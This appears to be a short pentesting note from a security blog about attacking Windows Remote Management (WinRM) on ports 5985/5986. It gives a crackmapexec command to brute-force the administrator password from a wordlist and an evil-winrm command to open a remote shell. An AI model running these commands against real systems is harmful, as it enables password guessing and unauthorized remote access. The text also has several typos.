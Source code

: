 ```yaml
---
title: 'WinRM'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'winrm']
slug: vuln/winrm
---
```


## Information

- Windows Remote Management is a remote management protocol that can be used to remote access with windows system over HTTP(S).

- Microsoft implemented WinRM in to Windows in order to make life easier for sysadmins.

- Remote access and intect with local network.

- Manage and configure windows systems remotely.

- Uses PCT port 5985 and 5986 (HTTPS).

## Exploit WinRM

- Implements access control and security for communication between systems through various forms of authentication.

- crackmapexec to perform a brute-force on WinRM.

- Ruby script called evil-winrm to obtain a command shell session.

```bash
crackmapexec winrm target -u administrator -p /usr/share/.../unix_passwd.txt

# port 5985
evil-winrm.rb -u administrator -p 'secretpass' -i target


```
